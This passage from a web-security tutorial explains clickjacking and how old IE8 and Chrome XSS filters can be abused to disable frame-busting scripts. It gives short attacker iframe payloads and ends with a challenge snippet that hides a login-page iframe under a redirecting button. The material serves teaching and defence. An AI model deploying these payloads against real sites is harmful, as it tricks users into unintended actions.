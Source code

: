 ```js
<iframe src="http://target site">
```

## XSS Filter

### IE8 XSS filter 
This filter has visibility into all parameters of each request and response flowing through the web browser and it compares them to a set of regular expressions in order to look for reflected XSS attempts. When the filter identifies a possible XSS attacks; it disables all inline scripts within the page, including frame busting scripts (the same thing could be done with external scripts). For this reason an attacker could induce a false positive by inserting the beginning of the frame busting script into a request’s parameters.
  ```html
  <script>
      if ( top != self )
      {
          top.location=self.location;
      }
  </script>
  ```
  Attacker View:
  ```html
  <iframe src=”http://target site/?param=<script>if”>
  ```

### Chrome 4.0 XSSAuditor filter

It has a little different behaviour compared to IE8 XSS filter, in fact with this filter an attacker could deactivate a “script” by passing its code in a request parameter. This enables the framing page to specifically target a single snippet containing the frame busting code, leaving all the other codes intact.
  Attacker View:
  ```html
  <iframe src=”http://target site/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D”>
  ```

## Challenge

Inspect the following code:
```html
<div style="position: absolute; opacity: 0;">
  <iframe src="https://legitimate-site.com/login" width="500" height="500"></iframe>
</div>
<button onclick="document.getElementsByTagName('iframe')[0].contentWindow.location='malicious-site.com';">Click me</button>
```

Determine the Clickjacking vulnerability within this code snippet. Identify how the hidden iframe is being used to exploit the user's actions when they click the button, leading them to a malicious website.
